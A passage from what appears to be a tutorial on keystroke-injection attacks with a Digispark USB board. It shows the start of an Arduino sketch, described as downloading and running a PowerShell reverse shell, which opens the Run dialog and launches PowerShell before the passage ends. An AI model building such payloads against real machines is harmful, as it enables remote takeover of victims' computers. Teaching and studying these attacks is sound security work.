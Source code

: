 ![Proof of Concept Example](</assets/Untitled (5).png>)


This attack can be further escalated to something more useful such as a reverse shell.
Reverse Shell Payload

Now, let's create an easy reverse shell payload using a Powershell reverse shell. You can see from the script below that this is a pretty simple script.

```
arduino

// This script downloads and executes a powershell script effectively opening up a reverse shell in less than 3 seconds.
// Credits to Hak5 and samratashok (developer of the nishang framework).

#include "DigiKeyboard.h"

void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("powershell.exe");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
```